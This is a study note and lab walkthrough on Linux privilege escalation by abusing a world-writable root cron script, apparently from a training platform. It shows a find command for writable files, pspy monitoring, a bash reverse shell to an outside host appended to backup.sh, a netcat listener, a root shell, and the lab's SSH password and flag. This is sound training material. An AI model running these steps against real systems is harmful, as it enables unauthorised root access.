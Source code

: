 # Cron Job Abuse

The crontab command can create a cron file, which will be run by the cron daemon on the schedule specified. When created, the cron file will be created in /var/spool/cron for the specific user that creates it.

For example, the entry 0 */12 * * * /home/admin/backup.sh would run every 12 hours

Certain applications create cron files in the /etc/cron.d directory and may be misconfigured to allow a non-root user to edit them.

1) Look around the system for any writeable files or directories

find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

/etc/cron.daily/backup
/dmz-backups/backup.sh
/proc
/sys/fs/cgroup/memory/init.scope/cgroup.event_control

<SNIP>
/home/backupsvc/backup.sh

<SNIP>

2)

ls -la /dmz-backups/

total 36
drwxrwxrwx  2 root root 4096 Aug 31 02:39 .
drwxr-xr-x 24 root root 4096 Aug 31 02:24 ..
-rwxrwxrwx  1 root root  230 Aug 31 02:39 backup.sh
-rw-r--r--  1 root root 3336 Aug 31 02:24 www-backup-2020831-02:24:01.tgz
-rw-r--r--  1 root root 3336 Aug 31 02:27 www-backup-2020831-02:27:01.tgz
-rw-r--r--  1 root root 3336 Aug 31 02:30 www-backup-2020831-02:30:01.tgz
-rw-r--r--  1 root root 3336 Aug 31 02:33 www-backup-2020831-02:33:01.tgz
-rw-r--r--  1 root root 3336 Aug 31 02:36 www-backup-2020831-02:36:01.tgz
-rw-r--r--  1 root root 3336 Aug 31 02:39 www-backup-2020831-02:39:01.tgz

--> job os executed every 3 minutes :  */3 * * * *

3) Confirm that a cron job is running using pspy, a command-line tool used to view running processes without the need for root privileges.

./pspy64 -pf -i 1000

2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 CMD: UID=0    PID=2201   | /bin/bash /dmz-backups/backup.sh 
2020/09/04 20:46:01 CMD: UID=0    PID=2200   | /bin/sh -c /dmz-backups/backup.sh 
2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/x86_64-linux-gnu/gconv/gconv-modules.cache
2020/09/04 20:46:01 CMD: UID=0    PID=2199   | /usr/sbin/CRON -f 
2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 CMD: UID=0    PID=2203   | 
2020/09/04 20:46:01 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 CMD: UID=0    PID=2204   | tar --absolute-names --create --gzip --file=/dmz-backups/www-backup-202094-20:46:01.tgz /var/www/html 
2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 CMD: UID=0    PID=2205   | gzip 
2020/09/04 20:46:03 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
2020/09/04 20:46:03 CMD: UID=0    PID=2206   | /bin/bash /dmz-backups/backup.sh 
2020/09/04 20:46:03 FS:        CLOSE_NOWRITE | /usr/lib/x86_64-linux-gnu/gconv/gconv-modules.cache
2020/09/04 20:46:03 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive

4) cat /dmz-backups/backup.sh 

#!/bin/bash
 SRCDIR="/var/www/html"
 DESTDIR="/dmz-backups/"
 FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
 tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR

5) Add a one-liner Reverse Shell

#!/bin/bash
SRCDIR="/var/www/html"
DESTDIR="/dmz-backups/"
FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
 
bash -i >& /dev/tcp/10.10.14.3/443 0>&1

6) nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12] 38882
bash: cannot set terminal process group (9143): Inappropriate ioctl for device
bash: no job control in this shell

root@NIX02:~# id
id
uid=0(root) gid=0(root) groups=0(root)

root@NIX02:~# hostname
hostname
NIX02

## LAB

ssh htb-student@10.129.167.49
Academy_LLPE!

id
uid=1008(htb-student) gid=1008(htb-student) groups=1008(htb-student)

find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

/etc/cron.daily/backup
/dmz-backups/backup.sh
/proc
/sys/fs/cgroup/memory/init.scope/cgroup.event_control
/home/backupsvc/backup.sh
/home/htb-student/screen_Exploit_POC.sh

ls -la /dmz-backups/
total 114020
drwxrwxrwx  2 root root    36864 Jan 23 19:38 .
drwxr-xr-x 25 root root     4096 Sep  1  2020 ..
-rwxrwxrwx  1 root root      189 Nov  6  2020 backup.sh
-rw-r--r--  1 root root 12966790 Nov  6  2020 www-backup-2020116-06:12:06.tgz
-rw-r--r--  1 root root 12966790 Jan 23 19:24 www-backup-2024123-19:24:01.tgz
-rw-r--r--  1 root root 12966790 Jan 23 19:26 www-backup-2024123-19:26:01.tgz
-rw-r--r--  1 root root 12966790 Jan 23 19:28 www-backup-2024123-19:28:01.tgz
-rw-r--r--  1 root root 12966790 Jan 23 19:30 www-backup-2024123-19:30:01.tgz
-rw-r--r--  1 root root 12966790 Jan 23 19:32 www-backup-2024123-19:32:01.tgz
-rw-r--r--  1 root root 12966790 Jan 23 19:34 www-backup-2024123-19:34:01.tgz
-rw-r--r--  1 root root 12966790 Jan 23 19:36 www-backup-2024123-19:36:01.tgz
-rw-r--r--  1 root root 12966790 Jan 23 19:38 www-backup-2024123-19:38:01.tgz

vi /dmz-backups/backup.sh 

bash -i >& /dev/tcp/10.10.14.138/443 0>&1

sudo nc -lvnp 443

... wait 2 minutes for the next execution of cron

Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.167.49.
Ncat: Connection from 10.129.167.49:38846.
bash: cannot set terminal process group (1777): Inappropriate ioctl for device
bash: no job control in this shell
root@NIX02:~# ls -l /root/cron_abuse/
ls -l /root/cron_abuse/
total 4
-rw-r--r-- 1 root root 33 Aug 31  2020 flag.txt
root@NIX02:~# cat /root/cron_abuse/flag.txt
cat /root/cron_abuse/flag.txt
14347a2c977eb84508d3d50691a7ac4b
